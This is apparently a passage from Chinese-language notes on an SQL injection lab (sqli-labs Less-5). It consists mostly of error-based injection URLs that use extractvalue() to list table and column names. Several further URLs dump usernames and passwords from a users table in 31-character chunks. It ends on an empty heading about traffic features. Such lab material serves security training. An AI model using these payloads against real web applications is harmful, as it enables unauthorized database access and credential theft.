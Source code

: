 ![image-20240806144039605](../../../../repo/assets/19.SQL注入/image-20240806144039605.png)

#####  表名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))--+

http://192.168.70.14:8088/Less-5/?id=0' union select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)),2,3--+
```

![image-20240806144258529](../../../../repo/assets/19.SQL注入/image-20240806144258529.png)

##### 字段名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))--+
```

![image-20240806144343123](../../../../repo/assets/19.SQL注入/image-20240806144343123.png)

#####  字段值

 group_concat()函数可能放不下所有内容，可以采用截取或者limit函数读取  

可以看出，爆出的字段名称长度超出了`32`，所以需要使用`substring（）`函数每隔`32`位截取一次，最终拼凑出全部内容。

```mysql
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),1,31),0x7e))--+
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),32,31),0x7e))--+
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),63,31),0x7e))--+
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),94,31),0x7e))--+
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),125,31),0x7e))--+
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),156,31),0x7e))--+
http://192.168.70.14:8088/Less-5/?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),187,31),0x7e))--+
```

![image-20240806144427905](../../../../repo/assets/19.SQL注入/image-20240806144427905.png)

![image-20240806144517081](../../../../repo/assets/19.SQL注入/image-20240806144517081.png)



### **三、流量特征**

#### 流量关键字
